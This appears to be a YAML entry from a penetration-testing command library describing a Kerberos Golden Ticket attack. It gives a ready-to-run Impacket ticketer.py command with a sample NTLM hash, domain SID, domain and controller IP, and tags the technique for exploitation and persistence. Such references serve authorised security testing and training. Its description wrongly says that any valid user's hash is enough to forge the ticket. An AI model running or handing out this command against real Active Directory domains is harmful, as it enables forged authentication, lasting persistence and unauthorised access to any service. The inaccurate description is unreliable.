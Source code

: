 ```yaml
---
title: |
  Golden Ticket Attack 
description: |
  Impacket's ticketer.py can perform Golden Ticket attacks, which crafts a valid TGT ticket using a valid user's NTLM hash. It is then possible to access any service using the TGT by requesting a TGS for that service.

  Command Reference:

  	Target IP: 10.10.10.1

  	Domain: test.local

  	Username: test

  	Hash: b18b4b218eccad1c223306ea1916885f

  	Domain SID: S-1-5-21-1339291983-1349129144-367733775

command: |
  python3 ticketer.py -nthash b18b4b218eccad1c223306ea1916885f -domain-sid S-1-5-21-1339291983-1349129144-367733775 -domain test.local -dc-ip 10.10.10.1 test
items:
  - Username
  - Hash
services:
  - Kerberos
OS:
  - Linux
  - Windows
attack_types:
  - Exploitation
  - Persistence
references:
  - https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketer.py
  - https://www.tarlogic.com/en/blog/how-to-attack-kerberos/
---
```

